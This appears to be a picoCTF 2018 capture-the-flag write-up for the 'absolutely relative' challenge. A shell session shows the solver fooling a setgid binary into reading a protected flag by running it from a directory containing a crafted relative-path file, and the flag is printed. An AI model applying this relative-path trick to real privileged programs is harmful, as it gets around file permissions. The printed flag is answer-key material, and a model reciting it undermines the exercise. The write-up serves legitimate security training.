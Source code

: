 # absolutely relative

__PROBLEM__

In a filesystem, everything is relative ¯\_(ツ)_/¯. Can you find a way to get a flag from this [program](https://2018shell.picoctf.com/static/725b533a89a0e70b85b37ce2965da003/absolutely-relative)? You can find it in /problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee on the shell server. [Source](https://2018shell.picoctf.com/static/725b533a89a0e70b85b37ce2965da003/absolutely-relative.c).

__HINT__

Do you have to run the program in the same directory? (⊙.☉)7
Ever used a text editor? Check out the program 'nano'

__SOLUTION__

```
wget https://2018shell.picoctf.com/static/725b533a89a0e70b85b37ce2965da003/absolutely-relative --no-check-certificate
wget https://2018shell.picoctf.com/static/725b533a89a0e70b85b37ce2965da003/absolutely-relative.c --no-check-certificate

sshpass -p <PASS> ssh luk6xff@2018shell4.picoctf.com


luk6xff@pico-2018-shell:~$ cd /problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee
luk6xff@pico-2018-shell:/problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee$ ls
absolutely-relative  absolutely-relative.c  flag.txt
luk6xff@pico-2018-shell:/problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee$ cat flag.txt
cat: flag.txt: Permission denied
luk6xff@pico-2018-shell:/problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee$ ls -la
total 76
drwxr-xr-x   2 root       root                   4096 Mar 25  2019 .
drwxr-x--x 556 root       root                  53248 Mar 25  2019 ..
-rwxr-sr-x   1 hacksports absolutely-relative_2  8984 Mar 25  2019 absolutely-relative
-rw-rw-r--   1 hacksports hacksports              796 Mar 25  2019 absolutely-relative.c
-r--r-----   1 hacksports absolutely-relative_2    37 Mar 25  2019 flag.txt


luk6xff@pico-2018-shell:/$ cd ~ && touch permission.txt && echo yes > permission.txt
luk6xff@pico-2018-shell:~$ /problems/absolutely-relative_2_69862edfe341b57b6ed2c62c7107daee/absolutely-relative
You have the write permissions.
picoCTF{3v3r1ng_1$_r3l3t1v3_372b3859}

```

FLAG - `picoCTF{3v3r1ng_1$_r3l3t1v3_372b3859}`
